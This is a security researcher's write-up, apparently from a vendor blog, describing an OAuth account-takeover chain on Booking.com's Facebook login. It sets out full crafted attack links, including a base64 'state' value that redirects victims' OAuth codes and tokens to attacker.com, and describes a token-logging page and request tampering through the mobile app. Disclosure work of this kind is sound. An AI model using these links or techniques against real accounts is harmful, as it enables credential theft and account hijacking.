

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Account Takeover on Booking.com

## **What is OAuth?**

OAuth 2.0 is a commonly used framework that allows users to authorize third-party applications to access their resources without sharing their passwords. For example, you can authorize Slack to access your Google calendar so your colleagues can see when you’re in meetings.

OAuth was not originally intended to be an authentication framework, but it has emerged as a widely used authentication mechanism for users with the social sign-in feature – the “log in with Google/Facebook” option you see on sites and in applications. Many ecommerce websites and apps use OAuth, for example, to allow users to authenticate their account and make purchases without having to enter their credentials multiple times.

A security breach in OAuth can lead to identity theft, financial fraud, and access to all sorts of personal information including credit card numbers, private messages, health records, and more. Last year, many interesting blogs described account takeover in sign-in OAuth flows, such as [Frans Rosen's "Dirty Dancing"](https://labs.detectify.com/2022/07/06/account-hijacking-using-dirty-dancing-in-sign-in-oauth-flows/) and [Youssef Sammouda's blog](https://ysamm.com/?p=763), the findings of which netted him a $44,625 award from Facebook. These blogs and others provide valuable insights into the inner workings of OAuth and the potential risks associated with it.

## **How does OAuth work for authentication?**

Let's start with a simple non-technical diagram:

<figure><figcaption></figcaption></figure>

Let’s explain the steps, one by one:

1\. You enter _Randomsite.com_ and click on “Login with Facebook”.

<figure><figcaption></figcaption></figure>

2\. _Randomsite.com_ will open a new window to Facebook.

3\. If it's your first time on _Randomsite.com_, Facebook will ask you to give permission. Otherwise Facebook will automatically authenticate you.

<figure><figcaption></figcaption></figure>

4\. After you click on “Continue as John”, Facebook will generate a secret token. This token is private for _Randomsite.com_, and associated with your Facebook profile.

5\. Facebook redirects you back to _Randomsite.com_ with this token.

6\. _Randomsite.com_ uses the token to talk directly with Facebook to get your email address.

7\. Facebook approves that this is really john@gmail.com, and _Randomsite.com_ can log him in.

And now let’s dive into more details, by adding URLs to the diagram:

<figure><figcaption></figcaption></figure>

**In steps 2-3:**

_After John clicks on login with Facebook, Randomsite.com_ opens a new window to the following address:

_https://www.facebook.com/v3.0/dialog/oauth?**redirect\_uri=https://randomsite.com/OAuth**\&scope=email\&client\_id=1501\&state=\[random\_value]\&response\_type=token_.

Note the redirect\_uri parameter – it tells Facebook where to send the token in Step 4-5.

**In steps 4-5:**

Facebook prepares a secret token for _Randomsite.com_ (the client\_id parameter tells facebook that the request is from randomsite.com) and redirects your browser back to redirect\_uri . The exact redirection:

_https://randomsite.com/OAuth#token=\[secret\_token]]\&state=\[Random\_Value]_

**In steps 6-7:**

_Randomsite.com_ reads the token from the URL, and uses it to talk directly with Facebook using the following API:

_https://graph.facebook.com/me?fields=id,name,email\&access\_token=\[secret\_token]_.

The response is john@gmail.com.

The flow in the example is called “implicit grant type,” which is common in single-page applications and native desktop applications that don't have a back end. Although I could use an example without a back end (without Randomsite.com), I decided to combine an implicit grant type with a back end because it is easier to understand.

Google, Apple, and other well-known vendors follow a similar flow. A newer method takes advantage of the PostMessage feature instead of a redirection, but we’re not addressing that use case in this post. Using redirection is still the most common approach.

## **OAuth implementation at Booking.com**

### **How OAuth works in Booking.com**

The flow is very similar to the example with Randomsite.com except it includes one new step, which we marked in red:

<figure><figcaption></figcaption></figure>

Step 1: In _Booking.com_, you click on  “Login with Facebook.”

**Steps 2-3:** ‍

Booking opens the following link: _https://www.facebook.com/v3.0/dialog/oauth?**redirect\_uri=https://account.booking.com/social/result/facebook**\&scope=email\&client\_id=210068525731476\&state=\[large\_object]&**response\_type=code**_.

Note that the response type is code instead of a token as we saw in the example of Randomsite.com.

A code is a temporary value that should be exchanged with a token. It adds an additional layer of security as I will explain in steps 6-7.

**Steps 4-5:**

Facebook authenticates you and redirects you back to booking.com with a **code**.

_https://account.booking.com/social/result/facebook?code={code}\&state=\[large\_object]_

Note that the code was passed to account.booking.com in a query parameter (**?**code=) instead of hash fragment (**#**token=) like the example of Randomsite.com. We will explain more on this issue later.

**Steps 6-7:**

To get a token, booking.com needs to exchange the code with token using the following Facebook API:

<figure><figcaption>
(from official <a href="https://developers.facebook.com/docs/facebook-login/guides/advanced/manual-flow">Facebook documentation</a>)
</figcaption></figure>

This step can be done only by Booking.com because it involves an {app-secret} only Booking.com knows. The code is for one-time use – that is, it can be exchanged only once. This approach is more secure – if an attacker steals the code, it is almost impossible to exploit.

**Steps 8-9:** &#x20;

Like we saw in Randomsite.com, Booking.com uses the Facebook API to get information about you, such as your email address. If Booking.com has an account that uses this email, then Booking signs you into this existing account.

This flow, which is common in almost every modern site, is called “Authorization code grant” or “OAuth explicit flow.”

### **Account takeover on Booking.com**

In OAuth, the goal of the attacker is to steal the token or code of the victim. In the case of Booking, the focus is the code. My general methodology in OAuth research is to cause unexpected behaviors of the flow by changing every parameter I can, to see how these manipulations advance me toward the ability to launch a successful attack.

I was able to chain together three different security issues, which I will explain in detail, to enable full account takeover at Booking.com.

**Security gap 1 - not allowing a unique path**

<figure><figcaption></figcaption></figure>

By manipulating a few of the steps in the OAuth sequence for this site, I was able to learn helpful information and start a path of manipulation.

In normal behavior, like I explained before, when a user clicks on “log in with Facebook,” Booking redirects the user to the following link in Facebook: _https://www.facebook.com/v3.0/dialog/oauth?redirect\_uri=https://account.booking.com/social/result/facebook\&scope=email\&client\_id=210068525731476\&state=\[large\_object]\&response\_type=code._

In normal behavior, like I explained before, when a user clicks on “log in with Facebook,” Booking redirects the user to the following link in Facebook: _https://www.facebook.com/v3.0/dialog/oauth?redirect\_uri=https://account.booking.com/social/result/facebook\&scope=email\&client\_id=210068525731476\&state=\[large\_object]\&response\_type=code_.

In step 1, I changed the redirect\_uri to a different path and sent this link to a victim:

_https://www.facebook.com/v3.0/dialog/oauth?redirect\_uri=https://account.booking.com/any/path/an/attacker/wants\&scope=email\&client\_id=210068525731476\&state=\[large\_object]\&response\_type=code_.

Note that we can’t change the origin (**account.booking.com**) because Facebook will throw an error - it doesn’t match the predefined origin provided by Booking.com.

When Booking.com registered to Facebook, they provided a predefined origin for the redirect\_uri, but didn’t provide an exact path. Therefore Facebook can validate only the origin before the redirection occurs.

Step 4: This link will redirect the victim to:

_https://account.booking.com/any/path/an/attacker/wants?code=\[secret\_code]?state=\[large\_object]_

‍

**We can send the code to any path we want**, so now we look for a way to send the code to another origin/domain that we control.

**Security gap 2 - open redirection**

At this point, I needed a path in booking.com that would redirect the victim to my controlled domain. That’s the definition of an open redirection vulnerability.

I start exploring features in Booking.com, and I find an interesting thing in “My Dashboard”:

<figure><figcaption></figcaption></figure>

Clicking on “add a display name”, points to the following url:

_https://account.booking.com/oauth2/authorize?aid=123;client\_id=d1cDdLj40ACItEtxJLTo;redirect\_uri=https://account.booking.com/settings/oauth\_callback;response\_type=code;state=**eyJteXNldHRpbmdzX3BhdGgiOiIvbXlzZXR0aW5ncy9wZXJzb25hbCIsImFpZCI6IjEyMyJ9**_

That URL automatically redirects the user to: _https://account.booking.com/mysettings/personal_. Can you guess how?

I immediately notice that the _**state**_ variable contains a base64 json string: **eyJteXNldHRpbmdzX3BhdGgiOiIvbXlzZXR0aW5ncy9wZXJzb25hbCIsImFpZCI6IjEyMyJ9**.

Let’s decode it:

<figure><figcaption></figcaption></figure>

Seems like Booking uses the mysettings\_path to determine how to redirect the user.

Let’s encode the following Json:

<figure><figcaption></figcaption></figure>

We got eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ

We replace the state in the original link, and send the victim the new link:

_https://account.booking.com/oauth2/authorize?aid=123;client\_id=d1cDdLj40ACItEtxJLTo;redirect\_uri=https://account.booking.com/settings/oauth\_callback;response\_type=code;state=eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ_

The link automatically redirects the victim to a shorter link (I skipped it before):

_https://account.booking.com/settings/oauth\_callback?state=eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ\&code=not\_important\_123_

And then to:

_**https://attacker.com/index.php**_

You might have seen the word “OAuth” or “redirect\_uri” in the open-redirection link. I assume it’s an inner implementation of OAuth in Booking.com. It isn't related to Facebook or to the redirect\_uri from security gap 1.

**Now we have an open redirection bug in booking.com.**

**Security gap 1 + 2 = Account Takeover Attempt**

The link to Facebook from security gap 1 (where we can send the code to any path we want):

_https://www.facebook.com/v3.0/dialog/oauth?redirect\_uri=https://account.booking.com/**any/path/we/want**\&scope=email\&client\_id=210068525731476\&state=large\_object]\&response\_type=code_

**+**

The open redirection link from security gap 2 (redirection to _www.attacker.com_) is:

_**https://account.booking.com/oauth2/authorize?aid=123;client\_id=d1cDdLj40ACItEtxJLTo;redirect\_uri=https://account.booking.com/settings/oauth\_callback;response\_type=code;state=eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ**_

**=**

Let’s insert the open redirection link in the redirect\_uri from security gap 1:

_https://www.facebook.com/v3.0/dialog/oauth?redirect\_uri=**https://account.booking.com/oauth2/authorize?aid=123;client\_id=d1cDdLj40ACItEtxJLTo;redirect\_uri=https://account.booking.com/settings/oauth\_callback;response\_type=code;state=eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ**\&scope=email\&response\_type=code\&client\_id=210068525731476_

We send this link to the victim.

**Changing the response type**

If the victim clicks on the link as it, Facebook redirects the user to the URL from security gap 2, with a code:

_https://account.booking.com/oauth2/authorize?aid=123;client\_id=d1cDdLj40ACItEtxJLTo;redirect\_uri=https://account.booking.com/settings/oauth\_callback;response\_type=code;state=eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ\&code=\[secret\_code]_

It’s the URL with the open redirection (the state eyJteXN… points to attacker.com), so Booking redirects the victim to: _https://attacker.com/index.php_.

**However, in a redirection, only the values after ‘#’ (hash fragments) are passed by the browser.** The code, which was passed in a query parameter (?=code=), was not sent to attacker.com (does not appear in the redirection to https://attacker.com/index.php).

By changing the response type from “code” to “code, token”. Facebook will send both the code and the token in the **hash fragment**. It’s a feature :)

The reason: since an access token is a super sensitive value in OAuth, using the hash fragment is a more secure approach. It is not sent to the server side and doesn't appear in the logs – only the javascript code can read it. (For more information on this detail, you can Google “OAuth implicit grant.”)

**Flow summary:**

<figure><figcaption></figcaption></figure>

Step 1: The attacker sends the victim the following link:

_https://www.facebook.com/v3.0/dialog/oauth?redirect\_uri=https://account.booking.com/oauth2/authorize?aid=123;client\_id=d1cDdLj40ACItEtxJLTo;redirect\_uri=https://account.booking.com/settings/oauth\_callback;response\_type=code;state=eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ\&scope=email\&response\_type=code,token\&client\_id=210068525731476_

Steps 2 and 3: After the victim clicks on the new link (with response type=code,token), Facebook **automatically** redirects the user to the URL from security gap 2 with a code in the **hash fragment**:

_https://account.booking.com/oauth2/authorize?aid=123;client\_id=d1cDdLj40ACItEtxJLTo;redirect\_uri=https://account.booking.com/settings/oauth\_callback;response\_type=code;state=eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ#code=\[secret\_code]\&access\_token=\[token]_

Steps 4 and 5:  It’s the URL with the open redirection (the state points to attacker.com), so Booking redirects the victim to: _https://attacker.com/index.php_

Step 6: The browser add the code to the hash fragment, and redirects the victim to:

_https://attacker.com/index.php#code=\[secret\_code]\&access\_token=\[token]_

**Optional: Let see the source code of attacker.com/index.php:**

**Index.php** - a javascript code that reads the url and sends it to save.php.

<figure><figcaption></figcaption></figure>

**Save.php** - save the inputs to a log file.

<figure><figcaption></figcaption></figure>

(I generated the code with sanppify.com)

**Account takeover Attempt 1**

At this point, we have the code of the victim. We (as the attacker) need to start a new login flow and replace our code with the victim code. We click again “sign-in with Facebook” and sign in using our account.

In the normal flow, after Facebook authenticate us, it redirects us to Booking with our code:

_https://account.booking.com/social/result/facebook?code={our\_code}\&state=\[large\_object]_

**We intercept this request.** We replace the code with the victim stolen code:

_https://account.booking.com/social/result/facebook?code={victim\_code}\&state=\[large\_object]_

Booking.com should exchange the code for a token, and get the profile info of the victim.

What comes back? Wait for it …

“Invalid code”

Nothing happens. What did I miss?

**Debugging the account takeover failure – what did we miss?**

From Facebook documentation, to exchange code with a token, Booking.com, in the back end, should use this API:

<figure><figcaption></figcaption></figure>

_In the documentation, Facebook wrote “This argument (redirect\_uri) must be the same as the **original** that you used when starting the OAuth login process”._

We started the OAuth login process with this link:

_https://www.facebook.com/v3.0/dialog/oauth?redirect\_uri=https://account.booking.com/oauth2/authorize?aid=123;client\_id=d1cDdLj40ACItEtxJLTo;redirect\_uri=https://account.booking.com/settings/oauth\_callback;response\_type=code;state=**eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ**\&scope=email\&response\_type=token,code\&client\_id=210068525731476_

In this case, the **original** redirect\_uri is marked in purple.This link is the open redirection link from security gap 2.

However, in the back end, when Booking exchanges the code for a token using the _/oauth/access\_token_ API, it sends Facebook the hard-coded value “_https://account.booking.com/social/result/facebook_” as the redirect\_uri. This is the redirect\_uri that booking uses in the normal flow.

In the same OAuth flow, Facebook got two different redirect\_uri, got suspicious, and therefore threw an error.

**Finding security gap 3**

At this point, I couldn’t find a solution on the web, so I decided to do some research on the mobile application of Booking.com. I used Android studio, Frida (to bypass SSL pinning) and a decompiler to read the code responsible for OAuth on that app.

For intercepting the request between the mobile application and Booking.com backend, I used Burp.

The diagram of exchanges on the mobile app is a little confusing – you can focus just on Step 6:

<figure><figcaption></figcaption></figure>

The OAuth flow in the mobile app has one major difference from the flow on the website – Step 6.

Steps 3 to 6: The code was passed to the mobile application, and then the mobile Application sent it to Booking.com. To be more accurate, the code was passed to Chrome->Booking.com->MobileApp->Booking.com

I’m not sure why this ping-pong is necessary.

Step 6: The mobile app passes the code to Booking.com using a post request:

<figure><figcaption></figcaption></figure>

**Pay attention to resultUri. Can you guess what Booking does with it?**

<figure><figcaption></figcaption></figure>

If Booking.com uses resultURi as the redirect\_uri to exchange code with token, and we can control this value, then we can bypass the validation of Facebook.

The original redirect\_uri that we used for the attack is:

_https://account.booking.com/oauth2/authorize?aid=123;client\_id=d1cDdLj40ACItEtxJLTo;redirect\_uri=https://account.booking.com/settings/oauth\_callback;response\_type=code;state=**eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ**_

To summarize, as the attacker, we need to:

1. Login to Booking.com, from the attacker Mobile application, with the attacker account.
2. Intercept the request in Step 6.
3. Replace our code with the stolen victim code.
4. Replace resultURi, with the link that we used for the attack (booking.com/state=eyJteXn..)

We send that request to Booking.com, and … **game over. We can log into the victim account.**

**What’s next?**

We created a link that takes over any account on Booking.com that uses Facebook. The link itself points to a legitimate [facebook.com](http://facebook.com) or [booking.com](http://booking.com) domain, which makes it difficult to detect (manually or automatically). The next step is to check the impact on other Booking sites such as Kayak.com and on other sign-in methods such as Google.

[https://salt.security/blog/traveling-with-oauth-account-takeover-on-booking-com](https://salt.security/blog/traveling-with-oauth-account-takeover-on-booking-com)
